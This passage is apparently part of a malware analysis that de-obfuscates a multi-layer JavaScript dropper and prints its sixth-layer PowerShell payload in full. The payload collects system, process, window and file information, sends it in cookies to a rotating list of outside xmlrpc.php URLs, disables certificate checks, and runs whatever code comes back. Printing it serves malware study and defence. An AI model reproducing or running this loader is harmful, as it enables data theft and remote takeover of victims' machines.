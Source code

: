 De-obfuscating this further gives the final in-memory javascript (sixth-layer) that calls powershell. 

## Sixth Layer

After further tidying up and replacing the variable with actual values 
(Taken from the M array) gives:

```ps
L = 'funct'+'ion YW'+'S'+'l'+'HGm($xr'+'xnR){'+'$fI'+'ZSmsu="7BB9E24C18";fun'+'c'+'tion Eams'+'VW($'+'xpGtoGo)
{$lT'+'m'+'geQ ='+' [sYStEM.'+'io.meMO'+'rys'+'tRe'+'aM]::NEw()'+';$'+'UKf'+'E = '+'[SyStE'+'M.io.
STrEAm'+'wrI'+'Ter]:'+':NeW('+'(NEW-obJeC'+'t SYsteM'+'.io.COmprES'+'siOn.GzIpstRE'+'Am
($l'+'TmgeQ'+','+'[SYStEM.I'+'O.CO'+'mp'+'rEsSion.C'+'OMP'+'RESSIoNMode]::COmPrESs)));$UKfE.WRi'+'Te
('+'[StrI'+'nG]::jOiN("|!",$xpGtoGo'+'));$UKfE.'+'CloSE();['+'SYsTeM.conVErt]::tObase6'+'4S'+'tRING
($'+'lTmgeQ.'+'ToaRr'+'Ay())}$FNZ'+'MSGn '+'= 
("ISf'+'O'+'L'+'Der|shelL'+'.'+'Appl'+'IcatIOn|nameSPACE|IT'+'eMs'+'|ISlInk|n'+'Ame|Is'+'fILE'+'SyST'+'EM'+'").
split("|")'+';$PxTkx=EamsVW(('+'dir env:|'+'wh'+'er'+'e{$_.value.Len'+'gth -'+'lt 99}|%{($_'+'.nam'+'e+"^"+$_.
va'+'lu'+'e)})+("OSWMI'+'^"+(gwmi'+' '+'Win32_'+'OperatingSystem'+').'+'caption));$vYYeqy'+'Y=Ea'+'msV'+'W
(GpS|'+'SELEct nAme -UNIQuE|%{$_.NA'+'ME});$RAA'+'q'+'cyUu'+'='+'E'+'amsVW'+'(gP'+'s'+'|WheRe{$_.
MainWInDOWtITlE'+'}|%{'+'$'+'_.n'+'ame'+'+"^"+'+'$_.m'+'AinWinDoWTIt'+'lE'+'});$'+'VfGP'+'a'+'=EamsVW(((newobj'+'ect -com ($FNZ'+'MSGn'+'[1]'+')'+').($FNZMSGn[2])(0)).('+'$FNZMSGn[3]'+')('+')'+'|%{'+'i'+'f($'+'_.
('+'$FNZM'+'SGn[4])'+'){"0"+$_.'+'($'+'FNZMS'+'Gn[5])}e'+'lseif($_.($FNZMSGn'+'[0])){"1"+'+'$_.($FN'+'ZMSGn
[5'+'])}el'+'sei'+'f($_.($FNZ'+'MSGn[6])){"2'+'"+['+'iO.path'+']::GETFILEnAmE($'+'_'+'.
p'+'aTh)}'+'E'+'l'+'sE'+'{'+'"3"+$_.'+'($'+'FNZMSGn[5])}});$bV'+'l'+'CC='+'EamsVW('+'gDR|WhERe{$_.'+'FREE -gT 
50000}|%{$_.naMe+"^"+$_.uS'+'eD'+'});'+'['+'NeT.s'+'e'+'rVIcepoI'+'NTMa'+'NAgER]::'+'Se'+'cuRiTYPROTocoL = [NeT.
securITy'+'ProT'+'OCOlT'+'ype]::tLS'+'1'+'2;'+'[NEt'+'.Se'+'RV'+'iCEpOINT'+'manageR]::
sERvercErtIF'+'IC'+'a'+'t'+'eVAlI'+'Da'+'TiONCalLbAck ={$TRUE};$MUx'+'Gbh=[syst'+'EM.'+'NeT'+'.
we'+'BrEQUeST'+']::C'+'REaT'+'e($xrxnR);$M'+'UxGbh.USe'+'RAg'+'eNt'+'="Mozilla'+'/5.0 (Window'+'s NT 10.0'+'; 
Win64; x64) A'+'ppleWebK'+'it/537.'+'36 (KHTML, '+'like Geck'+'o) Chrome'+'/107.0.0.0 Saf'+'ari/537.
36";$MU'+'xGbh.kE'+'EPAlIVe=0;'+'$MUxGb'+'h.H'+'E'+'ad'+'e'+'RS.A'+'dD("Cookie'+': $fIZSmsu'+'=$PxTkx; 
$f'+'IZS'+'ms'+'u`1=$vYY'+'eqyY; $'+'f'+'IZSmsu`2=$RAAqc'+'y'+'Uu'+'; $'+'fIZS'+'msu`3=$VfGPa; 
$fIZSmsu`4=$bVl'+'C'+'C");'+'$SMJqM=neW-oBject SyS'+'tem'+'.IO.S'+'TrEAmre'+'AdEr $MUxGb'+'h'+'.
geTreSPonS'+'e().geTR'+'eSpo'+'Ns'+'eSTR'+'eAm();$HSqFL=('+'$'+'SMJqM.'+'REadtoend('+')) -SplIT $fIZSmsu;If
($HSq'+'FL.cO'+'unT'+' -e'+'Q 3){'+'I'+'ex($HSq'+'FL'+'[1] -rEPLACe'+' '+'"\^","");}}W'+'HiLe(1){tr'+'Y
{YW'+'SlHGm(@("https'+'://cap'+'eracking'+'.co.'+'za/xmlrpc.'+'php"'+','+'"h'+'ttps://colorl'+'ib'+'.com/xmlrpc.
php","h'+'ttps'+'://v'+'ir'+'tualt'+'ilt.'+'com/xmlrpc.php'+'","https'+'://bepmina.'+'vn/'+'xmlrp'+'c.php'+'","
http'+'s:'+'/'+'/sexmoviesf'+'oundonli'+'n'+'e.co'+'m/x'+'mlrpc.php","htt'+'ps://oceanprezentow.
pl/xmlrpc.'+'php","'+'h'+'ttps://laminaintuast'+'uri'+'a'+'s.es/xmlrpc.p'+'hp"'+',"https://z'+'e'+'ltoda'+'y'+'.
ru/xmlrp'+'c.p'+'hp",'+'"h'+'tt'+'p'+'s:'+'//ac'+'tiv.co.'+'id/x'+'mlrp'+'c.ph'+'p"'+',"https'+':/'+'
/thewarzoneh'+'acker.com'+'/xmlrpc'+'.php") | get-ran'+'dOM)}Cat'+'CH'+'{'+'};SLEEp '+'-s'+' 20}';
p=(('su')+('bstr'));
P=(WScript);
M = 
'crEaT'+'E'+'oBjecT\\sh'+'eL'+'L'+'.'+'a'+'P'+'pL'+'iC'+'a'+'TiON'+'POwE'+'RS'+'HE'+'l'+'L'+'e'+'xe'+'c'+'csc'+'
```